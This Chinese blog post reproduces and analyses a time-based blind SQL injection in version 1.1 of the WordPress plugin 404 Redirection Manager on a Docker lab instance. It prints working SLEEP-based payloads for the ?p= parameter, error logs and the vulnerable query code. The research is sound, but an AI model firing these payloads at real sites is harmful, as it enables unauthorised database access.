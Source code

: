 ```yaml
---
layout: post
title: WordPress插件:404 Redirection Manager 1.1 SQL注入
categories: [漏洞]
tags: [WordPress,SQL Injection]
fullview: false
comments: true
---
```

发现这个问题的经过是这样的，原本想着上午逛逛exploit db 看看有没有什么漏洞可以自己搭环境可以搞一搞试试的，逛了一圈发现WordPress的404 Redirection Manager 1.0插件有个注入，提交的时间已经过去很多天了。本着观摩一下poc的心态点开看了看，发现WordPress的插件库里依旧还有这款插件，于是乎下载下来，用docker搭建了一个环境。【docker真好用...

下载下来才发现，这个插件已经更新到了1.1版本，就是在这个漏洞提交后不几天更新的，心一下子就凉了一半，心想着这么快就修了。但是好奇心驱使我还是把环境搭好了，用1.0版本的poc尝试了一下，发现依旧有用，虚惊一场，总之先搞了再说。

首先说下搭建的测试环境:

服务器：Apache

数据库类型：MySQL

数据库版本：5.7.15 

数据库客户端版本：libmysql - 5.5.52

PHP扩展:mysqli 

PHP版本：5.6.26-0+deb8u1

phpMyAdmin版本信息：4.4.14

WordPress版本：4.3.6

先做准备工作，在docker上部署的这个WordPress默认的链接形式是这样的：

<code>http://monburan-wordpress-test.daoapp.io/2016/12/22/sample-post/</code>

这里要将WordPress的链接设置成默认的，像这样：

<code>http://monburan-wordpress-test.daoapp.io/?p=123</code>

首先用1.0版本的poc测试一下：

<pre><code>http://monburan-wordpress-test.daoapp.io/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL</code></pre>

‘字面上’的注入很好理解，利用<code>sleep()</code>进行延时注入，当<code>'a'='a'</code>结果为<code>True</code>，则取0，<code>5-0=5</code>，执行<code>sleep(5)</code>。

为了更好的分析这个漏洞产生的过程，我插入了一条可以触发数据库错误的语句<code>') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'</code>(这里多了一个<code>'</code>),借助后台日志，我尝试着找到了这段注入执行的语句。

<pre><code>[Thu Dec 22 06:55:20.702722 2016] [:error] [pid 187] [client 10.10.79.136:43543]WordPress\xe6\x95\xb0\xe6\x8d\xae\xe5\xba\x93\xe6\x9f\xa5\xe8\xaf\xa2 select * from wp_WP_SEO_Redirection where enabled=1 and cat='link' and blog='1' and regex<>'' and ('/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'' regexp regex or '/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'/' regexp regex ) order by LENGTH(regex) desc \xe6\x97\xb6\xe5\x8f\x91\xe7\x94\x9fYou have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'' at line 1\xe9\x94\x99\xe8\xaf\xaf\xef\xbc\x8c\xe8\xbf\x99\xe6\x98\xaf\xe7\x94\xb1require('wp-blog-header.php'), wp, WP->main, do_action_ref_array, call_user_func_array, SR_redirect_manager::redirect\xe6\x9f\xa5\xe8\xaf\xa2\xe7\x9a\x84\xe3\x80\x82
</code></pre>

来看看php文件里面写了什么，执行的SQL语句是这样的：

<pre><code>
select * from $table_name 
where enabled=1 
and cat='link'
and blog='" . get_current_blog_id() . "'
and regex<>'' 
and $permalink_regex_options 
order by LENGTH(regex) desc </code></pre>

这里变量<code>$permalink_regex_options</code>指向了<code>('$permalink' regexp regex or '$permalink_alternative'  regexp regex )</code>。

<code>$permalink</code> 和 <code>$permalink_alternative</code> 则分别指向了 <code>get_permalink()</code>，<code>get_alternative_permalink()</code>这两个获取固定链接的函数。

综上，可以整理出完整在数据库中执行的语句：

<pre><code>select * from wp_WP_SEO_Redirection where enabled=1 and cat='link' and blog='1' and regex<>'' and ('/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL' regexp regex or '/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL' regexp regex ) order by LENGTH(regex) desc</code></pre>

可以发现，这里<code>sleep</code>执行了两次，所以执行的时间应该在10秒以上。从数据库上跑一下，成功了，时间也没问题。
![pic](www.baidu.com)

再精简一下注入语句<pre><code>') AND (SELECT * FROM (SELECT(IF(LENGTH(database())>32,SLEEP(5),0)))abc) AND ('SQL'='SQL</code></pre>


